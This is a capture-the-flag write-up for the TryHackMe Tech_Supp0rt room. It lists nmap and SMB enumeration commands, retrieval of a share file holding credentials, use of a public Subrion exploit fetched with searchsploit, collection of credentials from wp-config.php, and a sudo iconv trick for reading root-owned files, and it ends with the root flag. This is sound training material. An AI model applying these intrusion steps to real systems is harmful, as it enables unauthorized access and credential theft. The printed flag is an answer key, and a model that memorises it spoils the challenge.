 ![thumbnail](https://github.com/Debang5hu/ctf-writeups/assets/114200360/ad8c0a90-7994-4743-8af1-4612f8f21906)  

Machine: https://tryhackme.com/room/techsupp0rt1  

OS: Ubuntu (Linux)  

WEB TECHNOLOGY:  Wordpress(5.7.2),Subrion,Mysql,php

As usual start by exporting the IP to local variable  

```
export IP='10.10.228.84'
```  

------------------------------------------------------------------------------------------------  
Perform a Nmap scan:  

# Scanning and Reconnaisance  

NMAP RESULT:  

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h49m59s, deviation: 3h10m30s, median: 0s
| smb2-time: 
|   date: 2023-12-26T06:33:53
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-12-26T12:03:54+05:30
```

------------------------------------------------------------------------------------------  

PORTS/Services running:  

22 --> ssh  
80 --> http  
139,445 --> smb  

---------------------------------------------------------------------------------------------  
# ENUMERATION:  

HTTP (80):  
 
/test  
/wordpress --> /wp-admin  

Nothing Interesting Directory were found  

------------------------------------------------------------------------------------------------

SMB (139,445):  

![Screenshot_2023-12-26_15_27_28](https://github.com/Debang5hu/ctf-writeups/assets/114200360/89026d90-6262-4165-8d8b-8d5c5026f1df)  

```
smbmap -H $IP
```  

"websvr" has Read permission  

enumerating it:  

```
smbclient \\\\$IP\\websvr
```  

Found a text file named 'enter.txt' get the file in your device  

```
get enter.txt
```  

the file contains the username and password(encrypted) and gives the hint where to login with the provided credentials  

head to the site:  $IP/subrion/panel  

-----------------------------------------------------------------------------------------------------------------------------------
# Getting a shell  

Now, I found a python exploit to get the shell (found it using searchsploit)  

```
searchsploit subrion
```  

Get the exploit to the current directory by  

```
searchsploit -m php/webapps/49876.py
```  

Now run the exploit to get the shell and find the username and password from /home and /var/www/html/wordpress/wp-config.php  file  

After getting the Credentials SSH into the machine  

```
ssh scamsite@$IP
```  

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Priviledge Escallation  

check the sudo permissions  
  
```
sudo -l
```  

Now use 'gtfobins' for escalling the priviledge  

Read the Root flag:  

```
FILE='/root/root.txt'
```  

```
/usr/bin/iconv -f 8859_1 -t 8859_1 "$FILE"
```  


Root Flag: 851b8233a8c09400ec30651bd1529bf1ed02790b  


